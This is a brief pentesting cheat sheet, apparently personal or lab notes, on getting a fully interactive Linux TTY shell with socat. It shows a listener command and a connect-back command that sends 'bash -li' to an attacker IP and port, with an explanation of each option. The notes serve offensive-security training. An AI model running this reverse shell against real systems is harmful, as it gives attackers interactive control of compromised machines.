

# Full Linux TTY Shell

### Listening

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0 

# raw,echo=0 do the same thing as "stty raw -echo; fg" in netcat shell
```

### Connect Back


you have to install socat in the tager machine as it is not installed on lots of Linuxes.



```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


* **pty :** allocates a pseudoterminal on the target -- part of the stabilisation process
* **stderr** : makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* **sigint** : passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* **setsid** : creates the process in a new session
* **sane** : stabilises the terminal, attempting to "normalise" it.

<figure><figcaption><p>As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:</p></figcaption></figure>
